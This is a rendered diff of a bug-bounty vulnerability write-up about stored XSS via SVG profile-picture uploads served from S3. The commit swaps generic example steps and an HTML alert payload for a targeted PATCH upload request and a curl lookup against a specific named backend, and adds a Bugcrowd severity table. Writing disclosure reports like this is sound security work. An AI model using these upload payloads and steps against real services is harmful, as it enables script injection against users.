

Before and after one commit to H1bbpskills/forp1vulns, a Markdown page: S3_STORED_XSS_PROFILE_PICTURE.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/S3_STORED_XSS_PROFILE_PICTURE.md
+++ b/S3_STORED_XSS_PROFILE_PICTURE.md
@@ -29,36 +67,28 @@ The application allows users to upload profile pictures that are stored in an S3
 </svg>
 ```
 
-Or an HTML payload (if the bucket serves arbitrary Content-Types):
+3. **Retrieve the presigned S3 URL** from the API response or by calling:
 
-```html
-<html>
-<body>
-<script>alert(document.domain)</script>
-</body>
-</html>
+```bash
+curl -s 'https://backend.trustpoint.ai/api/v1/users/me/' \
+  -H 'Authorization: Bearer <access_token>' | jq '.profile_photo'
 ```
 
-5. **Modify** the request (if needed):
-   - Change the `Content-Type` header to `image/svg+xml` (for SVG) or `text/html` (for HTML).
-   - Change the filename extension to `.svg` or `.html`.
-
-6. **Forward** the modified upload request.
-
-7. **Retrieve the direct S3 URL** of the uploaded "profile picture" (inspect the page source, network traffic, or API response for the S3 object URL — typically something like `https://<bucket>.s3.amazonaws.com/profiles/<user-id>/avatar.svg`).
-
-8. **Open the S3 URL directly** in a browser (or send it to a victim). The JavaScript payload executes.
+4. **Open the presigned S3 URL** in a browser. The SVG renders and JavaScript executes in the context of `tp-backend-evidence-prod-us-west-2.s3.amazonaws.com`.
 
 ---
 
 ## Proof of Concept
 
-### Request (Upload)
+### Request
 
 ```http
-PUT /api/v1/user/profile/picture HTTP/1.1
-Host: api.target.com
-Authorization: Bearer <token>
+PATCH /api/v1/users/me/ HTTP/1.1
+Host: backend.trustpoint.ai
+Authorization: Bearer <redacted>
+Content-Type: multipart/form-data; boundary=----FormBoundary
+
+------FormBoundary
+Content-Disposition: form-data; name="profile_photo"; filename="avatar.svg"
 Content-Type: image/svg+xml
-Content-Disposition: attachment; filename="avatar.svg"
 
@@ -139,17 +174,19 @@ from io import BytesIO
 
-def sanitize_image(file_bytes):
-    img = Image.open(BytesIO(file_bytes))
-    output = BytesIO()
-    img.save(output, format='PNG')
-    return output.getvalue()
-```
+## Bugcrowd VRT Classification
+
+| Scenario | VRT Category | Priority |
+|----------|-------------|----------|
+| Self-XSS on S3 origin (current) | Stored XSS — Self-Only | P4 |
+| XSS on S3 origin affecting other users | Stored XSS — Non-Self | P3 |
+| Main origin XSS via document viewer | Stored XSS — Non-Self, Main Origin | P2 |
+| Main origin XSS with session hijacking | Stored XSS — Non-Self, Main Origin | P1 |
 
 ---
 
 ## References
 
 - [CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html)
+- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
 - [OWASP: Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
 - [AWS S3 Security Best Practices](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)
 - [PortSwigger: File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
-- [HackerOne: Stored XSS via SVG Upload](https://hackerone.com/reports/148853)
````
Also changed, not shown: other parts of S3_STORED_XSS_PROFILE_PICTURE.md (+89 -46 lines).
